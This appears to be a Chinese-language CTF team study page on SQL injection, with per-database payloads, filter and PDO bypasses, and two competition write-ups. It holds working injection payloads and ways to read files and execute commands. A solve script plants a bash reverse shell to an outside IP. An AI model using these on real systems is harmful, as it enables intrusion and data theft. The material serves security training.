





# 💉 SQL注入

主要参考：

<https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html>

<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#sql-injection>

<https://github.com/sqlmapproject/sqlmap/wiki/Usage>

## 基本概念

### 常用 SQL 语法


### SQL 注入的检测方法


### 测试不同数据库特性的原型验证DEMO

给出 python flask 程序和 docker compose 配置

* app.py （端点 /api/v1/login，实现一个简单的登录功能；能根据需要配置成对应数据库存储）
* Dockerfile（python 镜像的打包过程）
* db.sql（数据库初始化配置，主要就是建 users 表，插入一条数据）
* docker-compose.yml（compose 文件，有一个 web 服务、一个 mysql 服务、一个 postgres 服务、一个 mariadb 服务）

## 基本注入类型

对于 MySQL、PostgreSQL、MS SQL、Oracle、SQLite，每种类型的 payload 分别怎么写

盲注类型的，给出 python 脚本实现自动化获取 mysql 数据库的所有表名、指定表的字段名、指定记录的 password 字段值

### Union 注入 (Vqs147)

**语法：**都是`… UNION SELECT …`，前后列数一致。

**判断列数**：`ORDER BY 3--` （都可以）

              `GROUP BY 3--` （除了MS SQL）

              `UNION SELECT NULL, NULL, NULL--` （Oracle需要加上FROM dual）

              `LIMIT 1,1 INTO @,@,@--`  （只有MySQL能用，注入点在LIMIT后）

**特殊方法注出列名：**在过滤了information_schema关键词或由于输入字段长度限制而无法直接查询到列名时，

1、有报错回显：`UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a`

      原理：用JOIN将users表和自己结合，并作为临时表，临时表不允许有两个相同的列名，会报错Duplicate column name 'name'。

2、爆破列名：使用字典例如 <https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt>

**无列名注入**：如果还是不能知道列名，就需要结合通配符\*进行无列名注入。

1、目标表的列数比UNION前的列数少：`UNION SELECT *,1 FROM users`或`UNION SELECT 1,users.* FROM users`（注意这里不在最开头的\*，只有MySQL要求写明users.\*）或者使用JOIN

2、改用布尔盲注：`OR(SELECT*FROM users LIMIT 1)>(SELECT 1,'a',1)`（MS SQL不支持）

3、MySQL使用列别名：`` UNION SELECT `2` FROM(SELECT 1,2,3 UNION SELECT*FROM users LIMIT 1,1)a ``

4、各种方法将查询记录转换为字符串：

  PostgreSQL：用::text  `UNION SELECT t::text FROM (SELECT * FROM users LIMIT 1) AS t`

  MS SQL：用FOR XML或FOR JSON子句  `UNION SELECT(SELECT*FROM(SELECT*FROM users)a FOR XML PATH)`

  Oracle：用JSON_OBJECT函数  `UNION SELECT JSON_OBJECT(*) FROM (SELECT * FROM users)`

### 报错注入(WoftoM)

**原理**：由于处理 sql 查询时未处理好错误信息，可以通过故意引发数据库产生错误导致有关系统的信息泄露

**基本方式**:1. 尝试初始错误，添加`'`或条件错误查看`1/0`是否会出现详细错误信息  2.根据错误信息的特有语法、关键字或函数（例如 `version()` vs `@@version`），判断数据库的类型 3. 在可以报错的函数中中内嵌查询信息请求，将所需信息从错误信息中带出来

**典型 payload(得到数据库类型)：**


1. MySQL

   
   1. `' AND EXTRACTVALUE(1,CONCAT(0X7e,(SELECT @@VERSION)))--`
   2. `' AND UPDATEXML(1,CONCAT(0x7e,(SELECT @@version)),1)--`
2. Oracle

   
   1. `' AND 1=UTL_INADDR.get_host_name((SELECT banner FROM v$version WHERE rownum=1))--`
   2. `' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT banner FROM v$version WHERE rownum=1))--`
3. MS SQL

   
   1. `' AND 1=CONVERT(int,@@version)--`
4. PostgreSQL

   
   1. `' AND 1=CAST((SELECT version()) AS int)--`

      \

### 布尔盲注

### 时间盲注

### 堆叠注入

### Order by 注入 (lq)

用户可以控制的输入被直接拼接到 order by 语句后。

#### 1、基于盲注

通过构造case或if语句，根据排序的结果判断条件是否正确。 

当字段名已知：

```sql
order by if(判断条件, column1, column2)
order by (case when (判断条件) then column1 else column2 end)
```

当字段名未知： 当条件判断为假，则会执行`select 1 from information_schema.tables`导致报错，为真则返回正常排序结果。

```sql
order by if(判断条件,1,(select 1 from information_schema.tables)); 
```

当排序结果不会因不同的列产生明显变化，可以通过构造case或if语句，根据响应时间判断条件是否正确。

```sql
order by if(判断条件, sleep(5), 1)
order by (case when (判断条件) then pg_sleep(5) else 1 end)
```

#### 2、基于报错注入

利用`extractvalue`和`updatexml`。 `extractvalue(XML_document, XPath_string)` 用于从XML文档中提取一个值，利用函数对`XPath_string`格式的严格要求，通过构造非法的路径，比如用`~`（0x7e）或者其他非法字符开头的字符串使得数据库在报错信息中泄露出想要的数据。`updatexml(XML_document, XPath_string, new_value)`用于修改XML文档中的一个值，利用的原理和`extractvalue`相同。

```sql
order by extractvalue(1,(select concat(0x7e,database())))
order by updatexml(1,(select concat(0x7e,database())),1)
```

## 针对特定数据库的方法

数据库有什么特点？能不能堆叠？能不能写文件？能不能执行命令？有哪些常见的特有语法？三目运算符、字符串处理的常见函数有哪些？

### MySQL

### MariaDB

### PostgreSQL（Vqs147）

堆叠：PHP的pg_query()和pg_send_query()，python的psycopg2库中cursor.execute()都可以堆叠。

读文件：（需要权限）

1、`SELECT pg_read_file('/etc/passwd', 0, 200);`

2、`CREATE TABLE temp(t TEXT); COPY temp FROM '/etc/passwd'; SELECT * FROM temp;`

3、`SELECT lo_import('/etc/passwd'); `

`   SELECT lo_get(16420); -- use the OID returned from the above `

`   SELECT * from pg_largeobject;`

写文件：（需要权限）

`COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/1.sh';`等

执行命令：（需要权限）

1、`CREATE TABLE shell(output text); COPY shell FROM PROGRAM '...';`

2、`COPY (SELECT '') to PROGRAM '...'`

3、`CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT; SELECT system('...');`

4、`CREATE OR REPLACE FUNCTION system_exec(text) RETURNS text AS $$ import os `

`return os.popen(args[0]).read() $$ LANGUAGE plpythonu; SELECT system_exec('...');`

三目运算符：`CASE WHEN condition THEN true_val ELSE false_val END`

类型转换：`::INT`

字符串处理：`SUBSTR('foobar', <START>, <LENGTH>)`

`SUBSTRING('foobar', <START>, <LENGTH>)、`

`SUBSTRING('foobar' FROM <START> FOR <LENGTH>)`

`ENCODE(data, 'base64'), DECODE(data, 'base64')`

`CHR(code), ASCII(char)`

`CONCAT()，||`

### MS SQL

### Oracle

### SQLite


## 更高级的注入

### Quine 注入（Teru）

> 奎因程序（Quine）是一种特殊的计算机程序，其特点是不接受任何输入，却能输出自身的完整源代码。在可计算性理论和计算机科学文献中，这类程序通常被称为"自复制程序"、"自再生程序"或"自拷贝程序"。

在sql注入应用中，如果遇到源代码存在特定的判断逻辑，可以利用类似Quine的方法让 sql 语句输出自己，从而实现绕过。

**基本要求：要求存在类似 replace 的函数，可以把一个字符串内容复制成两份。（注意是必要条件不是充分条件）**

例题：

```php
$password=$_POST['password'];
if ($username !== 'admin') {
    alertMes('only admin can login', 'index.php');
}
checkSql($password);
$sql="SELECT password FROM users WHERE username='admin' and password='$password';";
$user_result=mysqli_query($con,$sql);
$row = mysqli_fetch_array($user_result);
if (!$row) {
    alertMes("something wrong",'index.php');
}
if ($row['password'] === $password) {
	die($FLAG);
}
```

首先字符串拼接，很明显是 sqli，获取 FLAG 的条件是 `$row['password'] === $password`，意思是数据库里查出来的 password 要和输入的 password 一样。这类题目通过盲注可以发现数据库里面是空表，因此需要我们的输入与最后的结果相等绕过验证。


Quine的基本形式：

```sql
REPLACE( 'REPLACE(间隔符,编码的间隔符,间隔符)' , 编码的间隔符 , 'REPLACE(间隔符,编码的间隔符,间隔符)' )
```

例如：

```sql
REPLACE('REPLACE(".",CHAR(46),".")', CHAR(46) , 'REPLACE(".",CHAR(46),".")' )
```

`CHAR(46)`是点号，所以替换过程可以用下面的图来表示

 

替换过程完成后，引号还是稍微有点问题，我们可以再加一步：

```sql
REPLACE(REPLACE('REPLACE(REPLACE("间隔符",CHAR(34),CHAR(39)),编码的间隔符,"间隔符")',CHAR(34),CHAR(39)),编码的间隔符,'REPLACE(REPLACE("间隔符",CHAR(34),CHAR(39)),编码的间隔符,"间隔符")')
```

仍然用图来表示：

 

回到题目，为了让查询结果中的 password 字段和输入的 password 一致，可以使用 union select 关键字：

```sql
1' union select 【Quine表达式】#
```

代入表达式：

```sql
1' union select replace(replace('1" union select replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1" union select replace(replace(".",char(34),char(39)),char(46),".")#')#
```

 

这样，sql 语句查询结果就会是输入的 password 本身。


一个生成quine表达式的程序：

```python
def quine(data, debug=False):
    if debug: print(data)
    data = data.replace('$$',"REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = data.replace('$$','"$"').replace("'",'"')
    data = data.replace('$$',"'"+blob+"'")
    if debug: print(data)
    return data

#把输入参数中需要回显的部分改成$$
data = quine("' union select 1,2,$$ -- ")

print(data)
```

#### 高级q

**如果 replace 被过滤了**，mysql 中可以用 regexp_replace 来代替。如果 regexp_replace 也被过滤了，可以使用子查询配合 concat 和 concat_ws 函数（mysql 与 sqlite 通用）。

```sql
select concat(a,char(34),a,char(34),'as a)as a#')from(select"select concat(a,char(34),a,char(34),'as a)as a#')from(select"as a)as a#
```

```sql
select concat_ws(char(34),a,a,'as a)as a#')from(select"select concat_ws(char(34),a,a,'as a)as a#')from(select"as a)as a#
```

最短形式：

```sql
select concat_ws(char(34),a,a,'a)a#')from(select"select concat_ws(char(34),a,a,'a)a#')from(select"a)a#
```

（注意注释形式，如果是 sqlite 推荐用`--`）

**如果replace和concat关键字都被过滤了**，还可以用insert函数（需要精确计算各个插入的位置）：

```sql
SELECT INSERT(p,231,0,0x5c)FROM(SELECT(SELECT INSERT(p,228,0,0x5c)FROM(SELECT(SELECT INSERT(p,115,1,p)FROM(SELECT'SELECT INSERT(p,231,0,0x5c)FROM(SELECT(SELECT INSERT(p,228,0,0x5c)FROM(SELECT(SELECT INSERT(p,115,1,p)FROM(SELECT\'.\'p)t)p)t)p)t'p)t)p)t)p)t
```

### NoSQL 注入


### PDO预处理语句也能注入？

```php
<?php
$dsn = "mysql:host=127.0.0.1;dbname=demo";
$pdo = new PDO($dsn, 'root', '');

$col = '`' . str_replace('`', '``', $_GET['col']) . '`';

$stmt = $pdo->prepare("SELECT $col FROM fruit WHERE name = ?");
$stmt->execute([$_GET['name']]);
$data = $stmt->fetchAll(PDO::FETCH_ASSOC);
foreach($data as $v) {
	echo join(' : ', $v) . PHP_EOL;
}
```

PDO的解析器存在漏洞，在开启了`ATTR_EMULATE_PREPARES`属性时（**默认开启**），如果把用户的输入拼接到列名（或表名、关键字等）中，即使用反引号包裹并且转义了用户输入中的反引号，也会导致SQL注入漏洞。

参考： <https://slcyber.io/assetnote-security-research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/>

关键：虽然列名本身没法逃逸出反引号，但借助PDO的解析漏洞（无法处理%00），可以在列名中放一个`?`来替代原本预留的`?`，并**在另外一个参数中包含反引号**，从而在最后发送给MySQL的语句里成功逃出反引号。

**注意转义的区别：作为标识符的参数是反引号转义，而作为数据字面量的参数是单引号转义。**


## 自动化工具使用

### sqlmap

* 常用的参数有哪些？
* 确定漏洞点后，如何
  * 获取所有数据表
  * 获取某一数据表的所有字段
  * 获取某一数据表的所有数据
  * 尝试获取远程Shell
* 常用的temper有哪些？


## 常用技巧（Teru）

### 读写文件

哪些函数可以读写文件？

读文件：

* load_file 读取文件全部内容作为字符串
* load data infile 常用于备份数据的恢复

```sql
select load_file('/tmp/test');
load data infile '/tmp/test' into table users;
```

写文件：

* into outfile（能写入多行，按格式输出）
* into dumpfile（只能写入一行且没有输出格式）

```sql
select '111' into outfile '/tmp/test';
select '111' into dumpfile '/tmp/test';
```

特别注意：MySQL 中一个重要的安全相关系统变量 `**secure_file_priv **`可以控制是否允许读写文件，它有三种取值：

* 空字符串 ('')：不限制文件操作的位置（允许任何目录）
* 一个具体的目录路径：所有 LOAD DATA INFILE 和 SELECT ... INTO OUTFILE 操作的文件必须位于该指定目录或其子目录下。
* NULL：完全禁用读写文件操作。

如何查看当前设置：

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

配置文件位置：

* Linux: 常见位置 `/etc/my.cnf`, `/etc/mysql/my.cnf`, `/usr/etc/my.cnf`, 或者 `~/.my.cnf`。具体取决于安装方式。
* Windows: 通常位于 MySQL 安装目录下，如 `C:\Program Files\MySQL\MySQL Server X.Y\my.ini`。

### 执行命令

SQL Server 里面 xp_cmdshell 被禁用了怎么开起来？

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### PHP 中可以过滤sqli关键词的函数

这些函数有什么特点？

#### addslashes

<https://www.php.net/manual/zh/function.addslashes.php>

addslashes 函数仅仅是将某些字符进行了转义，但并没有考虑到不同字符集的编码问题。因此，在使用 addslashes 函数时，可能会出现以下情况：

* 如果使用的是非 ASCII 字符集，如中文、日语等字符集，那么 addslashes 函数可能会导致字符串变得无效或者出现乱码。
* addslashes 函数并不能转义所有可能引起 SQL 注入的字符。例如，使用 %、_、- 等字符可以进行模糊查询，而这些字符在 addslashes 函数中并没有被转义。
* addslashes 函数并不能防止双重转义问题。如果用户已经对输入进行了转义，再使用 addslashes 函数可能会导致出现双重转义的问题，从而使字符串变得无效。 

当数据库使用的是GBK编码（必要条件），PHP编码为UTF8，可能出现宽字节注入：

* 在PHP中使用addslashes函数的时候，会对单引号%27进行转义，在前边加一个反斜杠"\\"，变成%5c%27
* 可以在前边添加%df，形成%df%5c%27，而数据进入数据库中时前边的%df%5c两字节会被当成一个汉字
* 于是%5c被吃掉了，单引号闭合，成功逃逸
* Payload：`username=admin%df' or 1=1#`

#### **mysqli_real_escape_string**

这个函数可以保证不出现注入

### 引号闭合

一般是直接引号、反斜杠转义右引号、GBK编码三种方法，分别怎么用？

* `username=admin' or 1=1#`
* `username=admin%5c&password=or 1=1#`
* `username=admin%df' or 1=1#`

### 关键词双写

哪些情况下可以用关键词双写绕过？

```sql
    public static string ReplaceStr(string Htmlstring)
    {
        //删除脚本
        Htmlstring = Regex.Replace(Htmlstring, @"<script[^>]*?>.*?</script>", "", RegexOptions.IgnoreCase);

        //删除HTML
        Htmlstring = Regex.Replace(Htmlstring, @"([rn])[s]+", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"-->", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"<!--.*", "", RegexOptions.IgnoreCase);

        Htmlstring = Regex.Replace(Htmlstring, @"&(quot|#34);", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(amp|#38);", "&", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(lt|#60);", "<", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(gt|#62);", ">", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(nbsp|#160);", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(iexcl|#161);", "xa1", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(cent|#162);", "xa2", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(pound|#163);", "xa3", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&(copy|#169);", "xa9", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, @"&#(d+);", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "xp_cmdshell", "", RegexOptions.IgnoreCase);

        Htmlstring = Regex.Replace(Htmlstring, "/r", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "/n", "", RegexOptions.IgnoreCase);

        //特殊的字符
        Htmlstring = Htmlstring.Replace("<", "＜");
        Htmlstring = Htmlstring.Replace(">", "＞");
        Htmlstring = Htmlstring.Replace("'", "＇");
        Htmlstring = Htmlstring.Replace("*", "＊");
        Htmlstring = Htmlstring.Replace("--", "－");
        Htmlstring = Htmlstring.Replace("?", "？");
        Htmlstring = Htmlstring.Replace("/", "／");
        Htmlstring = Htmlstring.Replace(";", "；");
        Htmlstring = Htmlstring.Replace("*/", "*／");

        //Sql语句
        Htmlstring = Regex.Replace(Htmlstring, "select", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "delete", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "insert", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "update", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "delay", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "waitfor", "", RegexOptions.IgnoreCase);
        Htmlstring = Regex.Replace(Htmlstring, "version", "", RegexOptions.IgnoreCase);

        return Htmlstring;
    }
```

单纯使用字符串替换的过滤可以直接双写绕过，例如"seSELECTlect"，如果代码中有循环检测，那么可以用未过滤的关键字插入中间，例如"seDELETElect"、"\*delay/"。

### 注释

各数据库分别可以用哪些注释形式？mysql 里面可以根据版本决定的注释怎么用？

#### MySQL

* 单行注释"--"，语法"-- 注释内容"**（注意：后面必须加空白字符，**`**/\*\*/**` **没有用）**
* 单行注释"#"，语法"#注释内容"
* 多行注释"/\*\*/"，语法"/\* 注释内容 \*/"
* 内联注释"/\*! \*/"，语法"/\*!注释内容 \*/"

内联注释很特殊，当叹号后面所接的数据库版本号时，当实际的版本等于或是高于那个字符串，应用程序就会将注释内容解释为SQL，否则就会当做注释来处理。

```sql
/*!50013 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!50503 SET NAMES utf8mb4 */;
/*!80000 SET SESSION information_schema_stats_expiry=0 */
```

（例题：22年校赛）

#### MariaDB

上面四种和 MySQL 一致，但是又增加了 mariadb 特有语法：

```sql
/*M! MariaDB-specific code */
/*M!###### MariaDB-specific code */
```

#### SQLite

sqlite 只支持 "--" 和 "/\* \*/"，**且 "--" 后面不需要有空格**

 

#### PostgreSQL

整体上和 sqlite 一样只支持 "--" 和 "/\* \*/"，但是后者可以有内嵌注释：

```sql
/* multiline comment
 * with nesting: /* nested block comment */
 */
```

#### Oracle DB

和 sqlite 一致

#### MS SQL（SQL Server）

和 sqlite 一致

### 编码

各数据库中，是否支持某些十六进制或 Unicode 编码？

编码一般只能用来表达常量字符串，无法表示sql语句中的关键字

Mysql：

* 十六进制编码 `X'01AF'` 或者 `0x01AF`
* 不支持 Unicode 编码


## 例题

### （Vqs147）2025阿里云CTF FakeJumpServer

题目只给了一个IP：114.55.146.242，没有任何其它信息，出题人提示：请从实战角度考虑该题，不需要任何脑洞。

1、先扫描端口发现22端口开放，nc连接看到：

`> nc 114.55.146.242 22 `

`SSH-2.0-FakeJumpServer`

是自定义的banner。

2、ssh登录要输入用户名和密码，既然从黑盒测试角度出发，遇到能输入的地方就要测试SQL注入。

先测试数据库类型，`username = "root"   password = "';select pg_sleep(10);-- "`成功延时了，说明数据库是PostgreSQL，可以堆叠注入，而PostgreSQL很方便命令执行，例如：`CREATE TABLE shell(output text); COPY shell FROM PROGRAM '...';`

3、尝试反弹shell，`password = "';CREATE TABLE shell(output text);COPY shell FROM PROGRAM 'bash -i >& /dev/tcp/124.70.132.209/6667 0>&1';"`没有成功，可能过滤了关键字或者有长度限制。

先考虑长度限制，把payload换到username中发现失败了，推测只有password字段被拼接到了SQL语句中。此时可以分多次把要执行的命令写入到/tmp/1.sh中，然后运行它：

解题脚本：

```python
import paramiko


def ssh_execute_command(hostname, username, password, command, port=22):
    """
    建立SSH连接，执行单条命令，然后关闭连接。一个完整的原子操作。

    Args:
        hostname (str): 服务器的主机名或IP地址。
        username (str): 登录用户名。
        password (str): 登录密码。
        command (str): 要在远程服务器上执行的命令。
        port (int, optional): SSH端口，默认为 22。

    Returns:
        tuple: 一个包含三个元素的元组 (stdout, stderr, exit_status)
               - stdout (str): 命令的标准输出。
               - stderr (str): 命令的标准错误输出。
               - exit_status (int): 命令的退出状态码 (0通常表示成功)。
               如果连接失败，则返回 (None, '错误信息', -1)。
    """
    client = None  # 初始化client变量
    try:
        # 1. 创建SSH客户端对象
        client = paramiko.SSHClient()

        # 2. 自动添加主机密钥（方便测试，生产环境请谨慎使用）
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

        # 3. 建立连接
        client.connect(
            hostname=hostname,
            port=port,
            username=username,
            password=password,
            timeout=10
        )

        # 4. 执行命令
        stdin, stdout, stderr = client.exec_command(command)

        # 5. 获取命令的退出状态码，这会等待命令执行完成
        exit_status = stdout.channel.recv_exit_status()

        # 6. 读取输出和错误
        stdout_output = stdout.read().decode('utf-8')
        stderr_output = stderr.read().decode('utf-8')

        return stdout_output, stderr_output, exit_status

    except paramiko.AuthenticationException:
        error_message = f"认证失败：用户名或密码错误。"
        print(error_message)
        return None, error_message, -1
    except Exception as e:
        error_message = f"连接或执行时发生错误: {e}"
        print(error_message)
        return None, error_message, -1
    finally:
        # 7. 确保在函数结束时总是关闭连接
        if client:
            client.close()


if __name__ == "__main__":
    hostname = "114.55.146.242"
    port = 22

    username = "root"
    password = "';CREATE TABLE vqs(b text);-- "

    output, error, status = ssh_execute_command(hostname, username, password, 'anything')

    command = "bash -i >& /dev/tcp/124.70.132.209/6667 0>&1"

    for i in range(5):
        username = "root"
        password = f"';COPY vqs FROM PROGRAM 'echo -n \"{command[i*10:(i+1)*10]}\">>/tmp/147.sh';-- "
        output, error, status = ssh_execute_command(hostname, username, password, 'anything')

    username = "root"
    password = "';COPY vqs FROM PROGRAM 'bash /tmp/147.sh';-- "
    output, error, status = ssh_execute_command(hostname, username, password, 'anything')
```

成功反弹shell：

 


\

\

\
在/app中找到flag，只有root有读权限，但readflag设置了SUID位，直接运行readflag即可读取flag。


### （Vqs147）2024 0ctf **secureweb**

题目文件：

[secureweb_06757c3ddcac7edc12ff301f07a6343605e7f502.zip 8755](attachments/28e85678-baa2-4a28-998b-a6be7a3b4283.zip)

这道题一共三部分，其中第一部分是sql注入。

1、发现漏洞点：#\[post("/message")\]中param.message经过check_sql函数检查后拼接进sql查询语句：

`let _ = sqlx::query(&format!( "INSERT INTO messages (uid,message) VALUES ({id},'{}')", param.message )) .execute(db.as_ref()) .await;`（api.rs)

post之后再get /message 可以得到刚刚注入的内容

每查询10次重置admin密码，我们的目标是在达到限制次数之前通过sql注入获得admin的密码：

```sql
INSERT INTO
    `users` (`id`, `name`, `password`, `admin`)
VALUES
    (1, 'admin', '<uuid>', 1);
```

（ctf.sql）注意密码是一个uuid

2、分析限制：check_sql函数：

```python
fn check_sql(s: &str) -> bool {
    let blacklist = vec![";", "INSERT", "SELECT", "UNION", "OR", "\\", " ", "|", "&", "%"];
    for i in blacklist {
        if s.contains(i) {
            return false;
        }
    }
    let re1 = RegexBuilder::new(r"\w+(\(.*\)).*")
        .case_insensitive(true)
        .build()
        .unwrap();
    let re2 = Regex::new(r"\([\s\S]*,[\s\S]*").unwrap();
    if re1.find(s).is_some() || re2.find(s).is_some() {
        return false;
    }
    return true;
}
```

其中re1没什么用，因为MySQL如果开启了`IGNORE_SPACE`选项，则会忽略函数名和(之间的空白字符，这题的环境中就开启了这个选项。在每个函数的左括号前面加一个\\t就能绕过。或者，.不包含\\n，所以在每个函数的左括号后面加一个\\n也可以绕过。

re2没法绕过，它限制了形如(…,…)格式的输入，这就导致我们没法闭合单引号后再插入第二组值

无法直接闭合单引号，有查询次数限制不能盲注，因此只能利用这个单引号开始的这个字段带出admin密码。

3、绕过限制

在默认的MySQL配置中，`||` 是逻辑运算符 `OR` 的同义词，而不是字符串拼接。当前情况下，不可能把查询到的字符串结果拼接并带出来，只可能用'0'+<某个数字>带出一个数字。

由于密码是一个uuid，其中有效信息0-9 a-f的16进制表示30-39,61-66正好都不包含字母，于是我们可以每4位一组用hex带出来，hex(substr(... from ... for ...)这样也可以绕过re2的检查。

4、解题脚本

```python
def leak_admin_uuid():
    chunks = []
    starts = [1, 5, 10, 15, 20, 25, 31]
    fors = [4, 4, 4, 4, 4, 6, 6]
    for i in range(7):
        start = starts[i]
        sz = fors[i]
        # 构造避开空格黑名单的注入载荷：全部用换行替代空格，小写关键字，无逗号
        payload = (
            f"0'+(select\nhex\n(substr\n(password\nfrom\n{start}\nfor\n{sz}))from\nusers\nwhere\nadmin=1))#"
        )
        # 触发注入
        r = sess.post(f"{BASE_URL}/api/message",
                      json={"message": payload})
        assert r.json()["code"] == 0, f"injection failed @ seg {i}"
